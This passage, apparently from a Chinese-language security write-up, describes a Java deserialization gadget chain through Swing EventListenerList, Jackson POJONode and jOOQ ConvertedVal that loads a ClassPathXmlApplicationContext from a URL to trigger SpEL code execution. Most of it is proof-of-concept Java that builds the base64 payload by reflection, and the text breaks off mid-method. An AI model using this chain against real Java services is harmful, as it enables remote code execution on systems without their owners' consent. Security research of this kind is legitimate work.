使用如下原生反序列化链触发 SpEL 表达式执行:

```plain
EventListenerList.readObject -> POJONode.toString -> ConvertedVal.getValue -> ClassPathXmlApplicationContext.<init>
```

如下代码生成 base64 的 payload:

```plain
import cn.hutool.core.io.FileUtil;
import cn.hutool.core.util.ReflectUtil;
import cn.hutool.core.util.SerializeUtil;
import com.fasterxml.jackson.databind.node.POJONode;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import org.jooq.DataType;
import org.springframework.context.support.ClassPathXmlApplicationContext;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.io.File;
import java.lang.reflect.Constructor;
import java.util.Base64;
import java.util.Vector;

// JDK17 VM options:
// --add-opens java.base/java.lang=ALL-UNNAMED --add-opens java.base/java.util.concurrent.atomic=ALL-UNNAMED --add-opens java.base/java.lang.reflect=ALL-UNNAMED --add-opens java.desktop/javax.swing.undo=ALL-UNNAMED --add-opens java.desktop/javax.swing.event=ALL-UNNAMED
public class PocServer {

    public static void main(String[] args) throws Exception {
        gen("http://localhost:8000/poc.xml");
    }

    public static void gen(String url) throws Exception{
        Class clazz1 = Class.forName("org.jooq.impl.Dual");
        Constructor constructor1 = clazz1.getDeclaredConstructors()[0];
        constructor1.setAccessible(true);
        Object table = constructor1.newInstance();

        Class clazz2 = Class.forName("org.jooq.impl.TableDataType");
        Constructor constructor2 = clazz2.getDeclaredConstructors()[0];
        constructor2.setAccessible(true);
        Object tableDataType = constructor2.newInstance(table);

        Class clazz3 = Class.forName("org.jooq.impl.Val");
        Constructor constructor3 = clazz3.getDeclaredConstructor(Object.class, DataType.class, boolean.class);
        constructor3.setAccessible(true);
        Object val = constructor3.newInstance("whatever", tableDataType, false);

        Class clazz4 = Class.forName("org.jooq.impl.ConvertedVal");
        Constructor constructor4 = clazz4.getDeclaredConstructors()[0];
        constructor4.setAccessible(true);
        Object convertedVal = constructor4.newInstance(val, tableDataType);

        Object value = url;
        Class type = ClassPathXmlApplicationContext.class;

        ReflectUtil.setFieldValue(val, "value", value);
        ReflectUtil.setFieldValue(tableDataType, "uType", type);

```